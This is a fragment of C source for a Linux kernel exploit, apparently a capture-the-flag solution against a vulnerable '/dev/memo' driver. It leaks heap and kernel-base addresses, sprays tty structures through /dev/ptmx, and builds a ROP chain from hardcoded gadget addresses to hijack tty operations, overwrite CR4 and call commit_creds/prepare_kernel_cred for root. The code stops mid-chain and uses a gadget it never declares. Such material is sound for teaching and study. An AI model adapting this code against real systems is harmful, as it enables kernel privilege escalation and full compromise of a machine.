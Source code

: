 ```
}

size_t vmlinux_base = 0;
size_t raw_vmlinux_base = 0xffffffff81000000;
size_t raw_do_tty_hangup = 0xffffffff8140f6b0; 
size_t raw_commit_creds = 0xffffffff8107b8b0; 
size_t raw_prepare_kernel_cred = 0xffffffff8107bb50;
size_t raw_regcache_mark_dirty = 0xffffffff81588fd0;
size_t raw_x64_sys_chmod = 0xffffffff8119fcd0;
size_t raw_msleep = 0xffffffff810c4740;

size_t raw_pop_rdi = 0xffffffff81001268; //pop rdi; ret;
size_t raw_pop_rdx = 0xffffffff81043137; //pop rdx; ret;
size_t raw_pop_rcx = 0xffffffff8104c852; //pop rcx; ret;
size_t raw_mov_rdi_rax = 0xffffffff810cecce; //mov rdi, rax; cmp r8, rdx; jne 0x2cecb3; ret; 
size_t raw_pop_rax = 0xffffffff81023301;//pop rax; ret;
size_t raw_mov_rdi_rbx = 0xffffffff827862bc; //mov rdi, rbx; call rax;
size_t raw_pop_rsi = 0xffffffff81001b79; //pop rsi; ret;
size_t raw_push_rax =  0xffffffff81022353;//push rax; ret;
size_t raw_pop_rdi_call = 0xffffffff81f234e2; //pop rdi; call rcx;

size_t base_add(size_t addr){
    return addr - raw_vmlinux_base + vmlinux_base;
}

int main(){

    char tmp_buf[0x3ff];
    struct skewBuf buf;
    int i;
    size_t rop[0x50];
    char* flag_str = "/flag";

    save_status();
           size_t fd = open("/dev/memo",O_RDWR);
    if(fd == -1){
        fail("memo open failed!n");
    }

    memset(tmp_buf,'A',sizeof(tmp_buf));
    mod_write(fd,tmp_buf,sizeof(tmp_buf));

    mod_read(fd,&amp;buf,sizeof(buf));
    size_t heap_addr = buf.vec[0]-0x400;
    msg("leak heap addr: %pn",(void*)heap_addr);

    size_t tty_fd = open("/dev/ptmx",O_RDWR|O_NOCTTY);
    if(tty_fd == -1){
        fail("ptmx open failed!n");
    }

    mod_llseek(fd,0x3ff,0);
    mod_read(fd,&amp;buf,sizeof(buf));
    size_t do_tty_hangup = buf.vec[0x4a];
    vmlinux_base = do_tty_hangup - raw_do_tty_hangup + raw_vmlinux_base;
    msg("do_tty_hangup addr: %pn",(void*)do_tty_hangup);
    msg("vmlinux_base addr: %pn",(void*)vmlinux_base);

    mod_llseek(fd,0x3ff,0);
    size_t rop_base = heap_addr+0x2e0;
    buf.vec[3] = rop_base;
    buf.vec[0x2e0/8+0xc] = base_add(raw_regcache_mark_dirty);//ioctl
    buf.vec[0x20/8] = base_add(raw_mov_cr4_rdi);
```